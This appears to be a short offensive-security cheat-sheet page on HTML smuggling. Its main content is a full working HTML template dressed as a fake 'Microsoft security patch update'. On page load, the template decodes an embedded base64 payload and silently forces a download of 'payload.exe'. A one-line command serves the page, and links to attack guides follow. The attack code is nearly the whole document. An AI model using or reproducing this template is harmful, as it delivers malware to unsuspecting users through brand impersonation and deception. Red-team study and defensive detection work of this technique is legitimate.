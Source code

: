 # HTML Smuggling

## 01 - Manual

`$ cat html_smuggling.html`

---

```html
<html>
    <body>
        <h1>
            Security Patch Update!
        </h1>
        <p>
            Please install this Microsoft security patch update!
        </p>
        <script>
            function Base64ToArray(base64) {
                var binary_string = window.atob(base64);
                var len = binary_string.length;
                var bytes = new Uint8Array(len);
                for(var i = 0; i < len; i++)
                    bytes[i] = binary_string.charCodeAt(i);
                return bytes.buffer;
            }
            // $ cat payload.exe | base64 -w 0
            var base64_binary = '<base64_payload>'
            
            var data = Base64ToArray(base64_binary);
            var blob = new Blob([data], {type: 'octet/stream'});
            var payloadfilename = 'payload.exe';
            
            var anchor = document.createElement('a');
            document.body.appendChild(anchor);
            anchor.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            anchor.href = url;
            anchor.download = payloadfilename;
            anchor.click();
            window.URL.revokeObjectURL(url);
        </script>
    </body>
</html>
```

`$ sudo python -m http.server 80`

---
## References

- [A Detailed Guide on HTML Smuggling](https://www.hackingarticles.in/a-detailed-guide-on-html-smuggling/)

- [GhostInHTML](https://github.com/exploitblizzard/GhostInHTML)